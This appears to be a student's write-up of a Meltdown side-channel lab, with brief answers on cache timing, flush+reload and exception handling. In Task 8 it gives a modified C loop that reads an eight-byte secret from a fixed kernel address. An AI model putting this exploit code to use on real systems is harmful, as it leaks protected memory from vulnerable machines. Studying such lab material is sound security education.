

# Task 1

To compile `CacheTime.c` successfully, you should add 2 lines first to resolve the type alias:

```c
#include <stdio.h>
#include <stdint.h>
```

Yes. Obviously, the accesses of `array[3*4096]` and `array[7*4096]` are extremely faster than that of the other elements, even though the access times of each element seems to be randomly various among 10 attempts.

# Task 2

Somehow it always finds the correct secret. So I modify the `CACHE_HIT_THRESHOLD` from 80 to 60, It begins to fail to find the secret with nothing output for a few times.

# Task 3

```txt
[  901.703115] secret data address:f881c000
```

# Task 4

No. I cannot access the kernel memory from user space. After executing the test program, the error message of *Segmentation fault* appears.

# Task 5

It handles the exception and prints

```txt
Memory access violation!
Program continues to execute.
```


# Task 6

Yes, I get the outputs

```txt
Memory access violation!
array[7*4096 + 1024] is in cache.
The Secret = 7.
```


# Task 7

## Task 7.1

It shows

```
Memory access violation!
```

No useful information output.

## Task 7.2

Add the code in a place between `flushSideChannel()` and `sigsetjmp()`. Anyway, It doesn't work as well.

## Task 7.3

Somehow, it still fails to steal the actual secret value. Even though I tried many times and modified the loop number.

## Task 8

Yes, it prints the first letter of the secret message.

To get the entire 8-byte secret message. I modified the code: nest the code in the main function into such a loop:

```c
for (int k = 0; k < 8; k++)
{

    memset(scores, 0, sizeof(scores));

    flushSideChannel();

    // Retry 1000 times on the same address.

    for (i = 0; i < 1000; i++)
    {

        ret = pread(fd, NULL, 0, 0);

        if (ret < 0)
        {

            perror("pread");

            break;
        }

        // Flush the probing array

        for (j = 0; j < 256; j++)

            _mm_clflush(&array[j * 4096 + DELTA]);

        if (sigsetjmp(jbuf, 1) == 0)
        {
            meltdown_asm(0xf881c000 + k);
        }

        reloadSideChannelImproved();
    }

    // Find the index with the highest score.

    int max = 0;

    for (i = 0; i < 256; i++)
    {

        if (scores[max] < scores[i])
            max = i;
    }

    printf("The secret value is %d %c\n", max, max);

    printf("The number of hits is %d\n", scores[max]);
}
```

And finally, I successfully stole the secret message:




